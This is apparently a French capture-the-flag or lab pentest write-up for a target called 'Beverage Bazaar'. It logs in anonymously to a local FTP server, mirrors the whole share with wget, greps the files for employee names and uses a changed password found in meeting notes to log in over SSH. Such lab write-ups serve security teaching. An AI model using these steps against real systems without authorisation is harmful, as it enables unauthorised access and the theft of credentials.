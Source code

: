 # Write-Up - Pentest / Beverage Bazaar

## Serveur FTP

On n'a aucun identifiant pour se connecter sur la machine.
On essaye donc de se connecter en utilisateur anonyme sur le serveur FTP :

```bash
ftp 192.168.1.1
Connected to 192.168.1.1.
220 Welcome to PopaCola file server.
Name (192.168.1.1:username): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

BINGO, on est connecté, plus qu'à trouver les fichiers d'intérêt dans le vault Obsidian !

## Chasse aux identifiants

```bash
wget -m ftp://anonymous:null@192.168.1.1:21 -P output_folder
```

> Note: Sans l'option `-m` sur `wget`, on n'aurait pas copié l'arborescence complète et on serait passé à côté du fichier intéressant.

Plusieurs fichiers ont l'air intéressant, notamment ceux concernant les utilisateurs de l'entreprise.
On trouve plusieurs comptes utilisateurs dans le répertoire `PopaCola_Vault\02_IT\02_System_Administration\User_Accounts\` : `amartin`, `mdupuis` et `sleclerc`.

Cependant, on s'aperçoit vite que les mots de passe donnés ne fonctionnent pas, on peut donc chercher à rechercher les différents nom d'utilisateur dans les fichiers :

```bash
grep -ERi "\smarc|\salicia|\ssophie" output_folder
```

Dans le fichier `Meeting_Notes_March.md` on apprend que le mot de passe de Marc a été changé.

On essaye de se connecter en SSH sur la machine avec `<username>:<password>` et on a notre flag !
